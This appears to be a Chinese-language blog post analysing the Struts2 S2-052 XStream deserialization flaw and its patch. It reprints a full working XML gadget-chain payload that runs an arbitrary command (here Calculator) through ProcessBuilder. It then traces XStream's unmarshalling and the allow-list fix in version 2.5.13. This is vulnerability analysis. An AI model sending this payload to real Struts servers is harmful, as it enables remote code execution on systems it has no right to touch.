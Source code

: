 ```yaml
---
layout: post  
title: "s2-052 漏洞解析和补丁分析"  
date: 2017-09-08
description: "java漏洞"  
tag: java漏洞
---
```

##  问题复现  
9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考[http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral](http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral),可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。  
找到[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/11959949.jpg)
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:  
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。
```
new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
```
跟进ProcessBuilder类，发现了commond字段
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/60983788.jpg)
那么其和xml的中的节点
```
<command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
```
可以匹配起来了，至此可以弹出计算器。  
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:  
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/21020967.jpg)
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/49876782.jpg)
Xstream将xml数据解析并放到一个map里面。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/82546916.jpg)
某处关键代码如下  
```
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
```
经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下  
```
 protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
```  
其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
 经过持续的跟进，发现callReadResolve函数入下  
 ![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/92268293.jpg)
 java反射机制。整个操作流程细节比较复杂，总结起来如下:
 xml先提取节点，解析到map
 迭代器继续解析节点
 反射机制执行恶意代码
 
## 补丁分析  
我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考[https://struts.apache.org/docs/s2-052.html](https://struts.apache.org/docs/s2-052.html))，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/29393266.jpg)
[http://x-stream.github.io/security.html](http://x-stream.github.io/security.html)。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/60892122.jpg)
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。  
```
 public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i < this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
```  
后面也就不会去解析之行了。至此，整个过程分析完毕。

##  参考资料   
http://x-stream.github.io/security.html
##  拓展学习  
http://www.freebuf.com/vuls/147017.html
##  参考资料   学习
##  参考资料   

